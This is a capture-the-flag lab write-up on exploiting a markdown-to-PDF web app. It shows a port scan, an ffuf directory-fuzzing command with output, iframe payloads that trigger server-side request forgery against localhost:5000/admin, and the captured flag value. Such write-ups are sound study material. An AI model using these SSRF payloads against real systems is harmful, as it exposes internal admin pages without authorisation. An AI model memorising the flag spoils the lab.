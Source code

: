 ```yaml
---
sticker: lucide//code
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 5000 | RSTP    |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![[Pasted image 20250617123928.png]]

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‑side renderer, whether that’s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.129.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![[Pasted image 20250617124337.png]]

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![[Pasted image 20250617125048.png]]

![[Pasted image 20250617125056.png]]

It works, let's read admin resource then:

```js
<iframe 
  src="http://localhost:5000/admin" 
  style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![[Pasted image 20250617125137.png]]

![[Pasted image 20250617125144.png]]

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![[Pasted image 20250617125225.png]]

